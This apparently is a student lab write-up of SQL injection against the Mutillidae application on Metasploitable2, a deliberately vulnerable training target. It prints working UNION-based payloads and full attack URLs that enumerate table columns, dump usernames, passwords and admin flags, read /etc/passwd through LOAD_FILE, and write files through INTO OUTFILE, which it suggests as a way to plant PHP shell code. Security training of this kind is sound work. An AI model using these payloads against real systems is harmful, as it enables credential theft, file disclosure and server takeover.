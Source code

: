 Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/a09a8d7e-9aa3-42e2-9cf3-90fe2fe3b0b6)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/719f9890-332b-4b29-ab3a-1e4905bd530a)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/6c7dfae4-7adb-47ba-a97d-f4b5bd6e7ec5)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details ![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/3f7f345e-5396-474c-8274-7dccdd8ac856)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
